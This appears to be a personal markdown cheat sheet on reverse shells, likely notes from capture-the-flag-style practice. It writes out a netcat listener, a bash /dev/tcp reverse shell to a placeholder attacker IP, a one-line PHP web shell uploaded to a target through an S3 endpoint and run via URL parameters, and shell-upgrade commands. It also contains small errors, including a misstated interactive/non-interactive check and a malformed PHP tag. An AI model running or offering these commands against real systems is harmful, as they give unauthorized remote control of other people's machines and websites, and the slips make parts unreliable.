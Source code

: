 # Description
This file lists everything I know about reverse shells and how to use them.

# Create a reverse shell
#### Description
How to create a reverse shell through bash/Linux terminal commands
### What are reverse shells used for?
Reverse shells are often used for gaining remote access to a system. Reverse shells require a listener on your attacking machine, and then you need to execute a command on the target machine that connects back to your listener, granting you access to the target machine's shell.
### How to create a reverse shell using ```bash```
1. ```nc -lvnp 4444```: use ```netcat``` to create a listener on port ```4444```
   - Other port numbers can be used as well, select the number that works for you 
2. ```bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1```: use ```bash``` to start an interactive shell
### How to create a reverse shell using ```aws``` and ```php```
1. ```nano shell.php```
   - Use the code editor to write a piece of code in PHP, such as: ```<? php system($_GET['cmd']); ?>```
2. ```cat shell.php```: check for ```shell.php```
3. ```aws s3 cp --endpoint-url=http://<target_url> shell.php s3://<target_url_w/o_extensions>```: upload ```shell.php``` to target
4. go to web browser, enter URL ```http://<target_url>/shell.php?cmd=ls```: execute ```ls``` command in web browser
   - You should now have access to the target website and can execute ```bash``` commands through the URL.
   - Replace ```ls``` with any command (keeping in mind spaces are "```+```" in URL encoding) to execute.


# Upgrade your shell
#### Description
How to upgrade a non-interactive shell (reverse shell) to a fully interactive one
### How do I know if I'm in a non-interactive shell?
You're probably in an interactive shell if you've tried to execute a MySQL prompt and the program froze.
### How to upgrade your shell
1. ```python3 -c 'import pty; pty.spawn("/bin/bash")'```
2. ```stty raw -echo; fg```
3. ```script /dev/null -c bash```
